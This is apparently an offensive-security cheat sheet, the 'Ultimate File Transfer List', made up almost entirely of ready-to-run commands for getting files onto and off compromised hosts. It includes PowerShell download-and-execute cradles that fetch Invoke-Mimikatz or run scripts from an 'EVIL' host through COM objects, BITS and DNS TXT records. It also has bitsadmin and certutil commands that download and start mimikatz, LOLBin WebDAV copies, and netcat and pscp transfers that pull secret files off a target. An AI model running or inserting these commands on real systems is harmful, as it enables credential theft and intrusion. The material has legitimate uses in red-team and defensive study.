 # Ultimate File Transfer List

## powershell.exe

### powershell proxy authentication

$Client = New-Object -TypeName System.Net.WebClient
$Client.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials
IEX (iwr 'https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')


### powershell 4.0 / 5.0 Invoke-WebRequest (works in constrained language mode)

Invoke-WebRequest "http://10.10.10.10/mimikatz.exe" -OutFile "C:\Users\Public\mimikatz.exe"

from @harmj0y:

### powershell download cradles


* #### powershell 3.0+ download and execute (bypass IE firstrun check)

     IEX (iwr 'https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1' -UseBasicParsing)


* #### powershell (any version)

     powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')"


     (New-Object System.Net.WebClient).DownloadFile("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1", "C:\Users\Public\Invoke-Mimikatz.ps1")


* #### hidden IE com object

     $ie=New-Object -comobject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://EVIL/evil.ps1');start-sleep -s 5;$r=$ie.Document.body.innerHTML;$ie.quit();IEX $r


* #### Msxml2.XMLHTTP COM object

     $h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://EVIL/evil.ps1',$false);$h.send();iex $h.responseText


* #### WinHttp COM object

     [System.Net.WebRequest]::DefaultWebProxy
     [System.Net.CredentialCache]::DefaultNetworkCredentials
     $h=new-object -com WinHttp.WinHttpRequest.5.1;$h.open('GET','http://EVIL/evil.ps1',$false);$h.send();iex $h.responseText


### bitstransfer

Import-Module bitstransfer;Start-BitsTransfer 'http://EVIL/evil.ps1' $env:temp\t;$r=gc $env:temp\t;rm $env:temp\t; iex $r


// DNS TXT approach from PowerBreach (https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerBreach/PowerBreach.ps1)
//   code to execute needs to be a base64 encoded string stored in a TXT record

IEX ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String(((nslookup -querytype=txt "SERVER" | Select -Pattern '"*"') -split '"'[0]))))


from @subtee:

```
<#
<?xml version="1.0"?>
<command>
   <a>
      <execute>Get-Process</execute>
   </a>
  </command>
#>
$a = New-Object System.Xml.XmlDocument
$a.Load("https://gist.githubusercontent.com/subTee/47f16d60efc9f7cfefd62fb7a712ec8d/raw/1ffde429dc4a05f7bc7ffff32017a3133634bc36/gistfile1.txt")
$a.command.a.execute | iex
```

Links:

https://gist.github.com/HarmJ0y/bb48307ffa663256e239


## bitsadmin.exe

cmd.exe /c "bitsadmin.exe /transfer downld_job /download /priority high http://www.trustedsite.com C:\Temp\mimikatz.exe & start C:\Temp\mimikatz.exe"

Links: 

https://www.greyhathacker.net/?tag=download-and-execute


## ssh / pscp.exe

pscp.exe C:\Users\Public\info.txt user@target:/tmp/info.txt

pscp.exe user@target:/home/user/secret.txt C:\Users\Public\secret.txt


## certutil.exe

certutil.exe -urlcache -split -f https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1

Links:

https://twitter.com/subtee/status/888122309852016641?lang=en


## certutil.exe base64

certutil.exe -encode mimikatz.exe mimikatz.txt

certutil.exe -decode mimikatz.txt mimikatz.exe

cat binary.exe | base64 -w 0

echo {base64_data} | base64 -d > binary.exe


## WebDAV downloaders


### makecab.exe

C:\Windows\System32\makecab.exe \\10.10.10.10\share\nmap.zip C:\Users\Public\nmap.cab


### esentutl.exe

C:\Windows\System32\esentutl.exe /y "\\10.10.10.10\share\mimikatz_trunk.zip" /d"C:\Users\Public\mimikatz_trunk.zip" /o


### extrac32.exe

C:\Windows\System32\extrac32.exe /Y /C \\10.10.10.10\share\secret.txt C:\Users\Public\secret.txt


### print.exe

C:\Windows\System32\print.exe /D c:\TEMP\ADExplorer.exe \\live.sysinternals.com\tools\ADExplorer.exe

Links:

https://twitter.com/Oddvarmoe/status/984749424395112448

for fuller list of WebDAV downloaders check @api0cradle LOLBINS/LOLBAS project:
https://github.com/api0cradle/LOLBAS/blob/master/LOLBins.md


## netcat

nc -nlvp 8000 > mimi_incoming.exe
nc -nv 10.10.10.10 8000 </tmp/mimikatz.exe


## web browser / server

python -m SimpleHTTPServer 80
python3 -m http.server
ruby -run -ehttpd . -p80
php -S 0.0.0.0:80
socat TCP-LISTEN:80,reuseaddr,fork


## wget

wget http://10.10.10.10:80/info.txt -O /tmp/info.txt


## curl

curl -o /tmp/info.txt http://10.10.10.10:80/info.txt


## rdesktop

rdesktop 10.10.10.10 -r disk:linux='/home/user/rdesktop/files'




